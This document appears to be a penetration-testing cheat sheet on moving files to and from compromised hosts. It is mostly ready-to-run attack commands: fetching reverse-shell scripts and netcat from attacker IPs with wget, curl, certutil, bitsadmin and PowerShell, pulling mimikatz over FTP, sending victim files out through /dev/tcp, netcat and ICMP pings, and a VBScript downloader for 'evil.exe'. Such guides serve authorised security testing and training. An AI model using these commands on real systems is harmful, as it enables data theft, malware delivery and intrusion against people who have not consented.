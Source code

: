 Exfiltration
Copy&Paste Base64
Linux

base64 -w0 <file> #Encode file
base64 -d file #Decode file

Windows

certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll

HTTP
Linux

wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD

Windows

certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf
​
#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
​
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous

Upload files

​SimpleHttpServerWithFileUploads​
FTP
FTP server (python)

pip3 install pyftpdlib
python3 -m pyftpdlib -p 21

FTP server (NodeJS)

sudo npm install -g ftp-srv --save
ftp-srv ftp://0.0.0.0:9876 --root /tmp

FTP server (pure-ftp)

apt-get update && apt-get install pure-ftp

#Run the following script to configure the FTP server
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pwd useradd fusr -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart

Windows client

#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt

SMB

Kali as server

kali_op1> impacket-smbserver -smb2support kali `pwd` # Share current directory
kali_op2> smbserver.py -smb2support name /path/folder # Share a folder
#For new Win10 versions
impacket-smbserver -smb2support -user test -password test test `pwd`

Or create a smb share using samba:

apt-get install samba
mkdir /tmp/smb
chmod 777 /tmp/smb
#Add to the end of /etc/samba/smb.conf this:
[public]
    comment = Samba on Ubuntu
    path = /tmp/smb
    read only = no
    browsable = yes
    guest ok = Yes
#Start samba
service smbd restart

Windows

CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:test test #For SMB using credentials
​
WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali"
WindPS-2> cd new_disk:

SCP

The attacker has to have SSHd running.

scp <username>@<Attacker_IP>:<directory>/<filename> 

NC

nc -lvnp 4444 > new_file
nc -vn <IP> 4444 < exfil_file

/dev/tcp
Download file from victim

nc -lvnp 80 > file #Inside attacker
cat /path/file > /dev/tcp/10.10.10.10/80 #Inside victim

Upload file to victim

nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt

thanks to @BinaryShadow_
ICMP

#In order to exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probablie increase this until 16)

from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
            print(f"{data.decode('utf-8')}", flush=True, end="")
​
sniff(iface="tun0", prn=process_packet)

SMTP

If you can send data to an SMTP server, you can create a SMTP to receive the data with python:

sudo python -m smtpd -n -c DebuggingServer :25

TFTP

By default in XP and 2003 (in others it need to be explicitly added during installation)

In Kali, start TFTP server:

#I didn't get this options working and I prefer the python option
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp

TFTP server in python:

pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORT> <IFACE> <FOLDER>

In victim, connect to the Kali server:

tftp -i <KALI-IP> get nc.exe

PHP

Download a file with a PHP oneliner:

echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php

VBScript

Attacker> python -m SimpleHTTPServer 80

Victim

echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

cscript wget.vbs http://10.11.0.5/evil.exe evil.exe

Debug.exe

This is a crazy technique that works on Windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

upx -9 nc.exe

Now it only weights 29 kb. Perfect. So now let's disassemble it:

wine exe2bat.exe nc.exe nc.txt

Now we just copy-paste the text into our windows-shell. And it will automatically create a file called nc.exe
